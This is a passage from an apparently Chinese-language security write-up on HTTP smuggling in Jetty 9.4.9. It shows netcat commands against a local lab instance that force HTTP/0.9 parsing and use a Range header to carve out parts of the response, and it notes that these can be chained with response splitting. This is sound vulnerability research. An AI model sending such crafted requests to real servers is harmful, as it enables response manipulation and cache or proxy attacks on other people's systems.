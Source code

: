 
对于 CVE-2017-7658 我们就不再探究了，因为之前也提过了，我们主要来看另外两个比较有意思的地方。

### HTTP/0.9

环境依旧可以使用我构建的 [jetty lab 环境](https://github.com/ZeddYu/HTTP-Smuggling-Lab/tree/master/jetty)，然后我们用如下方式发送一个标准的 HTTP/0.9 请求：

```plain
printf 'GET /?test=4564\r\n'|nc -q 1 127.0.0.1 8994
```

得到一个 400 响应：

```plain
HTTP/1.1 400 HTTP/0.9 not supported
Content-Type: text/html;charset=iso-8859-1
Content-Length: 65
Connection: close
Server: Jetty(9.4.9.v20180320)

<h1>Bad Message 400</h1><pre>reason: HTTP/0.9 not supported</pre>
```

接着我们加上版本标识：

```plain
printf 'GET /?test=4564 HTTP/0.9\r\n\r\n'|nc -q 1 127.0.0.1 8994
```

虽然这是 HTTP/0.9 不支持的格式，但是也会有意外的收获，得到一个 200 响应：

```plain
<head>
<title>Sample "Hello, World" Application</title>
</head>
<body bgcolor=white>

<table border="0">
<tr>
...
```

这里的响应没有 headers ，只有 body ，也就是这个请求被 HTTP/0.9 进行了解析。

而且更有意思的是，添加上 HTTP/0.9 不支持的 headers 也会有意外的收获，这里我们添加一个提取响应包部分内容的 header：

```plain
printf 'GET /?test=4564 HTTP/0.9\r\n'\
'Range: bytes=36-42\r\n'\
'\r\n'\
|nc -q 1 127.0.0.1 8994

, World
```

会发现 body 内容被我们进行了提取，结合我们上文提到的结合 HTTP Versio 进行的 HTTP Response Splitting ，我们可以进行各种花式攻击

### Chunk size attribute truncation
